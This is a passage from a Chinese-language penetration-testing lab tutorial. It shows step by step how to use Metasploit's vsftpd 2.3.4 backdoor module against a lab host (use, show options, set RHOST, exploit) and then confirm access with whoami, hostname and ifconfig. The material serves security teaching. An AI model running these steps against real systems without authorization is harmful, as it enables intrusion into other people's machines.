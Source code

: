 ![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480007023430.png-wm)

使用 `use` 命令，使用相应的攻击模块：

```
# 使用 use 命令，使用相应模块功能
use exploit/unix/ftp/vsftpd_234_backdoor

```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480007111526.png-wm)

接着再使用 `show` 命令，查看该模块所必填的参数：

```
# 使用 show 命令，查看相应的参数设置
show options
```
再下一步，我们继续使用 `set` 命令，设置必要的参数，如所要渗透的目标主机： 

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480007177068.png-wm)

```
# set 命令，设置相应要渗透的目标主机参数
set RHOST 192.168.122.102
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480007390482.png-wm)

最后一步，使用 `exploit` 对目标主机进行渗透攻击：

```
# 输入 exploit 命令，进行攻击
exploit
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480007725366.png-wm)

# 四、验证渗透攻击

下面我们将会学习验证渗透攻击。

### 4.1 验证渗透是否成功

验证渗透是否成功常用的三个命令：`whoami` 和 `hostname` 以及 ip 地址查看命令：`ifconfig`：


```
# 验证是否成功，查看当前的用户名
whoami

# 由 hostname 查看主机的名字
hostname

# 由 ifconfig 命令查看渗透主机的 ip 地址
ifconfig
```
